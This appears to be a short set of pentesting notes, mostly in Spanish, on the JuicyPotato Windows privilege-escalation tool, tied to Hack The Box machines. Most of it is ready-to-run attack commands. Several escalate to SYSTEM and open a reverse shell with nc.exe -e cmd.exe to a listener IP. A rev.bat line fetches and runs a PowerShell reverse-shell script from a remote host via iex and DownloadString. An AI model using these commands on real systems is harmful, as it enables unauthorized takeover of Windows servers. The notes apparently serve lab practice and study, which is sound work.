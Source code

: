 
## DESCRIPTION

A sugared version of RottenPotatoNG, with a bit of juice, i.e. another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM.

¿Que necesitamos?

![[Pasted image 20230221115231.png]]

Versiones afectadas: Server 2008R2, Server 2012, Server 2012 R2, Server 2016

#### Mas información
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

## EXPLOITATION

### OPTION 1: 

```
JuicyPotato.exe -l 1337 -c "{<<CSLID>>}" -p c:\windows\system32\cmd.exe -a "/c nc.exe -e cmd.exe <<IP DE ESCUCHA>> <<PUERTO ESCUCHA>>" -t *

# Ejemplo usando SMB
\\10.10.14.16\smbJuicyPotato -l 1337 -c "{96F27804-F44D-43BE-8B5F-630A21B7F83D}" -p c:\windows\system32\cmd.exe -a "/c \\10.10.14.16\smb\nc.exe -e cmd.exe 10.10.14.16 4444" -t *
```

![[Pasted image 20230221120048.png]]

**!!NOTA IMPORTANTE!!** 
* Cambiar el CSLID en funcion del Sistema Operativo

### OPTION 2:  EN WINDOWS 10  PUEDE HABER PROBLEMAS CON EL COMANDO  

LO MEJOR ES DESCARGAR NC EN LOCAL O BIEN UTILIZAR UNA LLAMADA (.BAT) A INVOKE-REVERSHEL.PS1

```
# Ejemplo con nc en loal
\10.10.14.16\smb\JuicyPotato.exe -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p C:\users\Destitute\appdata\local\temp\nc.exe  -a " -e cmd.exe 10.10.14.16 5555" -t *

# Ejemplo con rev.bar
 \\10.10.14.16\smb\JuicyPotato.exe -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p C:\users\Destitute\appdata\local\temp\rev.bat -t *
```

Donde rev.bat contiene `powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.15/Invoke-PowerShellTcp.ps1')` es decir llamas a este ejecutable que se descarga Invoke-PowershellTcp.

## MACHINES

* Hack The Box: Bounty, Conceal
